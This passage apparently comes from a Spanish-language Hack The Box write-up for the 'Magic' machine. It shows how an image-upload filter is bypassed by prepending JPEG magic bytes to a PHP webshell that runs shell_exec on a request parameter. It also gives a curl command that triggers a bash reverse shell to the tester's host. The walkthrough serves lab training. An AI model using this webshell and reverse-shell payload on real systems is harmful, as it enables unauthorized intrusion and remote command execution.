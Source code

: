 ![](https://i.imgur.com/m9vpIkV.png)

Esto indica que existe un parámetro en la validación que no se ha considerado, estos son los **magic bytes**.

# Obteniendo Acceso

## Burpsuite

1. Se indica el **filename** y **Content-Type**:

![](https://i.imgur.com/F9cVXGW.png)

2. Se coloca el código PHP malicioso entre el contenido de la imagen:

![](https://i.imgur.com/OfGyNEI.png)

Y se obtiene una PHP Webshell:

![](https://i.imgur.com/TvdKnU9.png)

## Head

Otra forma de obtener una Webshell es con el comando `head` que permite obtener los primeros bytes de un archivo y `xxd` para transformalos a hexadecimal:

```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/MAGIC]
└─# head -c 20 imagen.jpg | xxd > test

┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/MAGIC]
└─# cat test

00000000: ffd8 ffe1 0018 4578 6966 0000 4949 2a00  ......Exif..II*.
00000010: 0800 0000                                ....

┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/MAGIC]
└─# cat cmd.php   

<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/MAGIC]
└─# cat test cmd.php > webshell.php.jpg
```
Subimos el archivo **webshell.php.jpg** y se ejecuta este archivo con **Curl**:

```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/MAGIC]
└─# curl -X GET "http://10.10.10.185/images/uploads/webshell.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.11/449%200%3E%261%27" >> output
```
